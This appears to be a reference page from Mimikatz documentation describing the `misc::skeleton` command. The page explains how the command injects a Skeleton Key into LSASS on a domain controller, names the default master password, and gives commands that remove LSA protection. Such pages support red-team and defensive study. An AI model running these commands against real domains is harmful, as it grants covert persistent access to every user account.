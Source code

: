 # skeleton

`misc::skeleton` injects a "[Skeleton Key](https://www.thehacker.recipes/ad/persistence/skeleton-key)" into the LSASS process on the domain controller. A "master password" can then be used to authenticate as any domain user, while domain users can authenticate with their own password. The default skeleton key password is `mimikatz`**. **

The command has the following argument:

* `/letaes`

{% hint style="info" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # misc::skeleton
```

If the LSA protection is enabled, then the following commands can be used to remove it.

```
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
```

More information on the Skeleton Key attack on The Hacker Recipes.

{% embed url="https://www.thehacker.recipes/ad/persistence/skeleton-key" %}
